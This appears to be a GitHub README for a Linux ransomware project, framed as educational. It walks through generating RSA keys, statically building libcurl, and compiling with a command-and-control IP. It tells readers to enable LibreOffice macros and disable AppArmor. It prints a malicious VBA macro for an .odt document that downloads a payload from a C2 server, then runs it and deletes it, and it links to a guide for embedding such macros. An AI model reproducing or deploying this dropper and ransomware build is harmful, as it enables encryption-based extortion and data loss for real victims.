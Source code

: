 # Ransomware
> [!WARNING]
> EDUCATIONAL PURPOSES ONLY
>
>This project is intended solely for educational and research purposes in the context of cybersecurity training. It is designed to study and understand ransomware mechanics in a legal and controlled environment.
>
>DO NOT use this code for malicious purposes. Deploying ransomware on any system without explicit permission is illegal and can result in severe legal consequences.
>
>By using this project, you agree to abide by all applicable laws and take full responsibility for your actions. The author assumes no liability for any misuse.

## Requirement

```bash
sudo apt update
sudo apt install wget make gcc libssl-dev xz-utils build-essential pkg-confi
pip instal -r requirements.txt
```
The execution of macros must be authorized, and the AppArmor sandbox for LibreOffice must be disabled.


## Generating RSA Keys
Before anything else, we need to generate our RSA key pair.

Run the following commands to create your private and public keys:
```bash
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:2048  
openssl rsa -pubout -in private.pem -out public.pem  
```

## Make the binary static
We need to build the libcurl library. Follow these steps:
```bash
wget https://curl.se/download/curl-8.12.1.tar.xz
tar xvf curl-8.12.1.tar.xz
cd  curl-8.12.1
CC=musl-gcc ./configure --disable-shared --enable-static --prefix=/tmp/curl --disable-ldap --disable-sspi --without-librtmp --disable-ftp --disable-file --disable-dict --disable-telnet --disable-tftp --disable-rtsp --disable-pop3 --disable-imap --disable-smtp --disable-gopher --disable-smb --without-libidn --without-ssl --without-nghttp2 --disable-mqtt --without-zlib --without-brotli --without-zstd --without-libpsl --without-libidn2 --disable-docs
make && make install
```
For simplicity, this build process is also defined in the Makefile.

## Malicious file
To deploy the ransomware, we will use a malicious file.odt that contains a malicious macro:
```vba
Sub Main
	Shell("bash -c 'wget http://{C2_SERVER_IP}:8000/ -O /tmp/not_a_malware && chmod +x /tmp/not_a_malware && /tmp/not_a_malware && rm /tmp/not_a_malware'")
End Sub
```
Check this link for instructions on how to add it: [LibreOffice Macro Exploit](https://exploit-notes.hdks.org/exploit/malware/libreoffice-macros/).

## Compiling
Simply run the following command to compile the project:
```bash
make SERVER_IP="{C2_SERVER_IP}"
```

## Demo
[!Demo](https://github.com/user-attachments/assets/36d123e0-5b12-43f4-bb25-d6675cae70b7)